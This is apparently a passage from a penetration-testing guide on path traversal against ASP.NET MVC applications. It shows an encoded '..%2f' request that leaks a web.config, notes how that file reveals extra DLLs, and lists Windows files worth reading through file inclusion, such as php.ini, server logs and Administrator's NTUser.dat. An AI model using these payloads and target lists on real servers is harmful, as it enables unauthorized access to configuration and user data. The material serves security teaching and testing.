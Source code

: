 ```markup
GET /download_page?id=..%2f..%2fMinded/Views/web.config HTTP/1.1
Host: example-mvc-application.minded
[...]

HTTP/1.1 200 OK
[...]
<?xml version="1.0"?>
<configuration>
<configSections>
  <sectionGroup name="system.web.webPages.razor" type="System.Web.WebPages.Razor.Configuration.RazorWebSectionGroup, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral">
    <section name="host" type="System.Web.WebPages.Razor.Configuration.HostSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral" requirePermission="false" />
    <section name="pages" type="System.Web.WebPages.Razor.Configuration.RazorPagesSection, System.Web.WebPages.Razor, Version=3.0.0.0, Culture=neutral” requirePermission="false" />
  </sectionGroup>
</configSections>
<system.web.webPages.razor><host factoryType="System.Web.Mvc.MvcWebRazorHostFactory, System.Web.Mvc, Version=5.2.3.0, Culture=neutral" />
<pages pageBaseType="System.Web.Mvc.WebViewPage">
<namespaces>
  <add namespace="System.Web.Mvc" />
  <add namespace="System.Web.Mvc.Ajax" />
  <add namespace="System.Web.Mvc.Html" />
  <add namespace="System.Web.Routing" />
  <add namespace="System.Web.Optimization" />
  <add namespace="WebApplication1" />
  <add namespace="WebApplication1.AdditionalFeatures" />
</namespaces>
```

Note how in the previous output you can see a new namespace called: **WebApplication1.AdditionalFeatures** which indicates that there is another Dll in the /bin folder called **WebApplication1.AdditionalFeatures.dll**

### Common files 

From [here](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

```text
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
```